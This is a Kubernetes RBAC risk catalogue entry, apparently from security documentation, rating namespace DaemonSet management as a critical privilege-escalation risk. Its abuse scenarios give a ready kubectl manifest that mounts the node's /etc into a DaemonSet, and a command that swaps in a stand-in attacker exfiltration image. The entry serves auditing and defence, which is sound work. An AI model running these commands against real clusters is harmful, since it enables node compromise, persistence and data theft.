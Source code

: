 ```yaml
---
id: 1036
title: "Manage DaemonSets in a namespace (runs on nodes, high impact)"
description: "Allows creating, updating, or deleting DaemonSets within a specific namespace. Even if namespaced, DaemonSets can be configured to run on multiple nodes, and if they deploy privileged pods, this can lead to node compromise, privilege escalation, and persistence."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                        |
| ------------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1036                                                                                                                                         |
| Name          | Manage DaemonSets in a namespace (runs on nodes, high impact)                                                                                |
| Risk Category | Elevation of Privilege                                                                                                                       |
| Risk Level    | {{< risk Critical >}}                                                                                                                        |
| Role Type     | Role                                                                                                                                         |
| API Groups    | apps                                                                                                                                         |
| Resources     | daemonsets                                                                                                                                   |
| Verbs         | create, update, patch, delete                                                                                                                |
| Tags          | {{< tag "NodeAccess" >}} {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting DaemonSets within a specific namespace. Even if namespaced, DaemonSets can be configured to run on multiple nodes, and if they deploy privileged pods, this can lead to node compromise, privilege escalation, and persistence.

## Abuse Scenarios

1. Create a new DaemonSet with hostPath access in the namespace.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: hostpath-daemonset
spec:
  selector:
    matchLabels:
      app: hostpath-ds
  template:
    metadata:
      labels:
        app: hostpath-ds
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        volumeMounts:
        - mountPath: /host-etc
          name: host-etc
      volumes:
      - name: host-etc
        hostPath:
          path: /etc
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing DaemonSet's image to a malicious one.

```bash {copy=true}
kubectl set image daemonset/<daemonset-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image daemonset/my-logging-agent agent=attacker/log-exfiltrator -n monitoring

```
